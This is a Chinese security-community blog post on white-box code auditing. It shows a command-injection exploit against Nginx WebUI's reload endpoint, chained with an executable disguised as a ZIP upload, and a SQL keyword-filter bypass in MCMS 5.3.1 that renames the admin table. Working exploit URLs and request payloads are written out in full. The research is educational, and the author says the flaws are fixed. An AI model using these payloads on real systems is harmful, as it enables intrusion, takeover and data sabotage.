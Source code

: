 ```yaml
---
title: 浅谈白盒下命令执行与注入绕过的挖掘 - 先知社区
url: https://xz.aliyun.com/t/13915
clipped_at: 2024-03-20 09:45:07
category: default
tags: 
 - xz.aliyun.com
---
```



# 浅谈白盒下命令执行与注入绕过的挖掘 - 先知社区

### 1\. 前言

在进行白盒时，会经常性的碰到过滤器，拦截器以及一些规则的拦截。本文针对前些时间的审计做整理。

### 2\. Nginx WebUI 命令执行利用

在早些时候，进行了挖掘，主要是针对命令执行的绕过，各种杂七杂八繁琐的绕过才可以进行命令执行。  
往期文章：[https://xz.aliyun.com/t/12690](https://xz.aliyun.com/t/12690)  
但其实有一种更为简便的方法。  
在此处可以直接上传 ZIP，这个稍后提供思路。  
[![](assets/1710899107-b6f46aaae4cd4e9d6a9dcdb38ba6f136.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228111651-d101ed28-d5e7-1.png)  
首先来看一处命令执行

```plain
@Mapping("reload")
    public synchronized JsonResult reload(String nginxPath, String nginxExe, String nginxDir) {
        if (nginxPath == null) {
            nginxPath = ToolUtils.handlePath(this.settingService.get("nginxPath"));
            this.settingService.set("nginxPath", nginxPath);
        }
        if (nginxExe == null) {
            nginxExe = ToolUtils.handlePath(this.settingService.get("nginxExe"));
            this.settingService.set("nginxExe", nginxExe);
        }
        if (nginxDir == null) {
            nginxDir = ToolUtils.handlePath(this.settingService.get("nginxDir"));
            this.settingService.set("nginxDir", nginxDir);
        }
        try {
            String cmd = nginxExe + " -s reload -c " + nginxPath;
            if (StrUtil.isNotEmpty(nginxDir)) {
                cmd = cmd + " -p " + nginxDir;
            }
            String rs = RuntimeUtil.execForStr(cmd);
            String cmd2 = "<span class='blue'>" + cmd + "</span>";
            if (StrUtil.isEmpty(rs) || rs.contains("signal process started")) {
                return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadSuccess") + "<br>" + rs.replace("\n", "<br>"));
            }
            if (rs.contains("The system cannot find the file specified") || rs.contains("nginx.pid") || rs.contains("PID")) {
                rs = rs + this.m.get("confStr.mayNotRun");
            }
            return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadFail") + "<br>" + rs.replace("\n", "<br>"));
        } catch (Exception e) {
            this.logger.error(e.getMessage(), (Throwable) e);
            return renderSuccess(this.m.get("confStr.reloadFail") + "<br>" + e.getMessage().replace("\n", "<br>"));
        }
    }
```

可以发现在传入时，只要这三个参数不为 null，则会到 20 行的调用命令处。  
所以按照以下进行构造：  
[http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1](http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1)  
(尴尬.jpg)  
[![](assets/1710899107-c52b0f93b11bca5ac030be895962b63b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228112950-a11f4bee-d5e9-1.png)  
其实见怪不怪了。  
[![](assets/1710899107-db7d49a0c41bd3b2eb7d11af42819a70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113757-c39a1f40-d5ea-1.png)  
有了此时上面的上传点，所以就是可以配合任意文件上传，传入一个文件来进行执行即可，没什么技术含量。但是那处功能点，只能传入 zip，那就传入一个后缀为 zip，结构为 pe 文件结构的文件。这里直接将 calc.exe 的 pe 文件结构里面的数据全部 copy 进来，上传之后可以发现传入一个 calc.zip  
通俗理解起来就是传入了一个 calc.exe 后缀为.zip 而已  
[![](assets/1710899107-70bfa205e55df81021b791f60fc14c7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113529-6b7b9a00-d5ea-1.png)  
配合前面传入的 calc.zip  
之后在 [http://192.168.0.108:8080/adminPage/conf/reload 这个 controller 传入参数即可](http://192.168.0.108:8080/adminPage/conf/reload%E8%BF%99%E4%B8%AAcontroller%E4%BC%A0%E5%85%A5%E5%8F%82%E6%95%B0%E5%8D%B3%E5%8F%AF)  
可以看见传入的命令为文件上传传入的 zip 文件路径，访问之后成功执行这个文件，这个文件就是前面传入的 calc.zip，这里不需要关注文件后缀。会自动解析 zip, 发现 zip 为 pe 文件结构，将当成 exe 文件执行了。  
这里用的 calc.exe 作为例子，当然也可以生成一个恶意的 exe 来执行，达到获取权限的目的。  
[http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc](http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc)  
[![](assets/1710899107-703273a4f3aaadeb99ecad50a19100d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113540-71be1bb8-d5ea-1.png)

### 2\. SQL 注入绕过水洞

之前在审 MCMS (5.3.1) 时，挖掘到了一个水洞，奈何没绕过该注入。  
通过代码审计得知，首先看 action。  
在 net.mingsoft.mdiy.action#importJson 方法允许接收一个 ModelEntity 类  
[![](assets/1710899107-d8fd69c0d5795aa19eeadef62cbd3fca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114401-9cb3b49e-d5eb-1.png)  
稍后就会走到 net.mingsoft.mdiy.biz.impl#importModel 方法  
这里会获取到从 importJson 方法传过来的数据，并获取 sql 这个字段的内容，并最后传入到 excuteSql (sql) 来执行该 sql 语句。  
[![](assets/1710899107-38d1e0322ef923cca745688fcdf39dea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114436-b1455de0-d5eb-1.png)  
但是这里有一个过滤，不允许有 select insert... 这些关键字

```plain
if (!StringUtils.isBlank(sql) && !StrUtil.containsAnyIgnoreCase(sql, new CharSequence[]{"INSERT ", "SELECT ", "UPDATE ", "DELETE ", "DROP ", "ALTER ", "TRUNCATE "})) {
    this.modelDao.excuteSql(sql);
}
```

最后传入 Dao 层，来执行 sql 语句  
[![](assets/1710899107-dd4ab7471b0524f4ad2ac03cd12ae9de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114510-c591d7ba-d5eb-1.png)  
[![](assets/1710899107-dc749f57f4ad3dfddd7bac0e3234c6f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114518-ca66fbc6-d5eb-1.png)  
既然是白盒方式，水洞的方式可就多了。  
首先可以看见，管理员表为 manager  
[![](assets/1710899107-2166e72d53b528f29228e66abccd8bd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114615-ec4de81c-d5eb-1.png)  
之后登录后，进行发包，这里数据包中的 title 和 tableName 随便填写即可。但是只能使用一次，因为会被添加到数据表中。所以多次发包的时候，title 和 tableName 一定要修改。

```plain
modelType=cms&modelJson=
{
  "html": "\n<template id=\"custom-model\">\n    <el-form ref=\"form\" :model=\"form\" :rules=\"rules\" label-width=\"120px\" label-position=\"right\" size=\"small\">\n\n    </el-form>\n</template>\n",
  "title": "test01",
  "script": "",
  "sql": "rename table manager to xxxxxxxx",
  "tableName": "test01"
}
```

[![](assets/1710899107-78b2be6f86dd36f48b07197354b36049.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114742-20461af4-d5ec-1.png)  
最后可以看见，manager 管理员表名被改成了 xxxxxxxx。  
同理，也可以自己创建一个管理员表  
[![](assets/1710899107-7369ee7d377d78876d6c80921c22acd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114831-3dbe374c-d5ec-1.png)  
[![](assets/1710899107-508319a2e9e4a294b16a92e83fdd5650.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114837-40ff7196-d5ec-1.png)  
之后就会发现，管理员无法正常登录了。因为此时表已经被更改。  
[![](assets/1710899107-6236c3cb5ebdb7211da5c389511d29cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114853-4a5ad1b8-d5ec-1.png)  
当然也可以对其它表进行更改，影响的可能就是页面数据问题了。至于其它的思路就是 replace into 针对管理员表新增一个用户，或者添加一个 Mysql 用户进行远程连接。这里大家可以自行发挥。

### 结尾

在白盒中挖掘，可以最大化的利用自己的思路来水到洞。至于以上案例已经全部修复。
